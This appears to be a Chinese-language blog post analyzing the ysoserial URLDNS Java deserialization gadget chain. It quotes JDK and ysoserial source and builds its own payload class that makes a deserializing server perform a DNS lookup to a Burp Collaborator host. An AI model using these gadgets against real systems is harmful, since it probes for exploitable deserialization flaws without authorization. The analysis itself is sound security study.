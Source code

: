 ```yaml
---
title: "Ysoserial URLDNS分析"
date: 2020-02-12T22:28:34+08:00
draft: false
tags:
- java
- ysoserial
series:
-
categories:
- 代码审计
---
```


简单的gadget构造。
<!--more-->

## 分析

先来看ysoserial的payload
```java
public Object getObject(final String url) throws Exception {

    //Avoid DNS resolution during payload creation
    //Since the field <code>java.net.URL.handler</code> is transient, it will not be part of the serialized payload.
    URLStreamHandler handler = new SilentURLStreamHandler();

    HashMap ht = new HashMap(); // HashMap that will contain the URL
    URL u = new URL(null, url, handler); // URL to use as the Key
    ht.put(u, url); //The value can be anything that is Serializable, URL as the key is what triggers the DNS lookup.

    Reflections.setFieldValue(u, "hashCode", -1); // During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.

    return ht;
}
```
可以看到是HashMap类的问题，而触发反序列化的⽅法是 readObject ，直奔 HashMap 类的 readObject ⽅法：
```java
private void readObject(java.io.ObjectInputStream s)
    throws IOException, ClassNotFoundException {
    // Read in the threshold (ignored), loadfactor, and any hidden stuff
    s.defaultReadObject();
    reinitialize();
    if (loadFactor <= 0 || Float.isNaN(loadFactor))
        throw new InvalidObjectException("Illegal load factor: " +
                                         loadFactor);
    s.readInt();                // Read and ignore number of buckets
    int mappings = s.readInt(); // Read number of mappings (size)
    if (mappings < 0)
        throw new InvalidObjectException("Illegal mappings count: " +
                                         mappings);
    else if (mappings > 0) { // (if zero, use defaults)
        // Size the table using given load factor only if within
        // range of 0.25...4.0
        float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
        float fc = (float)mappings / lf + 1.0f;
        int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                   DEFAULT_INITIAL_CAPACITY :
                   (fc >= MAXIMUM_CAPACITY) ?
                   MAXIMUM_CAPACITY :
                   tableSizeFor((int)fc));
        float ft = (float)cap * lf;
        threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                     (int)ft : Integer.MAX_VALUE);

        // Check Map.Entry[].class since it's the nearest public type to
        // what we're actually creating.
        SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
        @SuppressWarnings({"rawtypes","unchecked"})
        Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
        table = tab;

        // Read the keys and values, and put the mappings in the HashMap
        for (int i = 0; i < mappings; i++) {
            @SuppressWarnings("unchecked")
            K key = (K) s.readObject();
            @SuppressWarnings("unchecked")
            V value = (V) s.readObject();
            putVal(hash(key), key, value, false, false);
        }
    }
}
```
在最后进行了hash(key)计算，跟进
```java
static final int hash(Object key) {
    int h;
    return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
}
```
进行了hashCode()函数，而key此时是我们传入的 java.net.URL 对象，那么跟进这个类的hashCode()方法看下
```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
当hashCode字段等于-1时会进行handler.hashCode(this)计算，handler是定义的URLStreamHandler字段，那么进入java.net.URLStreamHandler#hashCode()

![image](https://y4er.com/img/uploads/20200216016235.png)

u是我们传入的URL，getHostAddress会进行dns查询。整个链比较简单：
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()

## 构造payload
```java
package com.sera.urldns;

import java.io.*;
import java.lang.reflect.Field;
import java.net.MalformedURLException;
import java.net.URLConnection;
import java.net.URLStreamHandler;
import java.util.HashMap;
import java.net.URL;

public class URLDNS implements Serializable {

    public static void main(String[] args) throws MalformedURLException, NoSuchFieldException, IllegalAccessException {

        URLStreamHandler handler = new URLStreamHandler() {
            @Override
            protected URLConnection openConnection(URL u) throws IOException {
                return null;
            }
        };
        HashMap hm = new HashMap();
        String url = "http://0jkp1tes60w8k6928kvujpirnit9hy.burpcollaborator.net";
        URL u = new URL(null, url, handler);
        Class clazz = u.getClass();

        Field field = clazz.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);
        hm.put(u, url);
    }

}
```
![image](https://y4er.com/img/uploads/20200216015833.png)


**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

